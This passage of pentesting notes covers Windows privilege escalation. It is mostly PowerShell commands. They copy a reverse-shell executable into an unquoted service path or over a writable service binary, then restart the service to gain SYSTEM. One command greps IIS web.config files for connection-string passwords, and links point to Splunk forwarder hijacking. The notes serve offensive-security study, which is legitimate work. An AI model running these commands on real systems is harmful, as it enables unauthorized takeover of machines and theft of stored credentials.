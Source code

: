 ```powershell
# File transfer
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
net start unquotedsvc
# or
sc stop unquotedsvc
sc start unquotedsvc
```
[Pentestlab](https://pentestlab.blog/2017/03/09/unquoted-service-path/)

`program.exe` for 0day naming by Jake Williams. Game-on tip is to create a program.exe on your box thats a just application that can alert you that unquoted path vulnerabiltiy exists in some third party software equals disclosure 0day. 

## Insecure service executables

If service's executable DACL is well configured and service binary path is correctly quoted - should DACL allow modification of the configuration of a service then reconfigure it!
```powershell
sc qc filepermsvc # Find a service that runs with SYSTEM privileges
accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe" # sysinternals - check writability
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y # replace the filepermservice.exe
# (Re)start service
net start filepermsvc 
# or 
sc stop filepermsvc
sc start filepermsvc
```

## IIS Configuration

Internet Information Services (IIS) is the default web server on Windows installations. `web.config` store the configurations found either:
```powershell
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```
It can contain passwords.
```powershell
# Read hacker read
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```


## Splunk Endpoints?

On endpoints, [[Splunk]] sends log data back to centralized location, if it does not have any authenication then there is code execution if is running as `SYSTEM$` consider reviewing: [Splunk Universal Forwarder Hijacking](https://airman604.medium.com/splunk-universal-forwarder-hijacking-5899c3e0e6b2) and [SplunkWhisperer2](https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/).
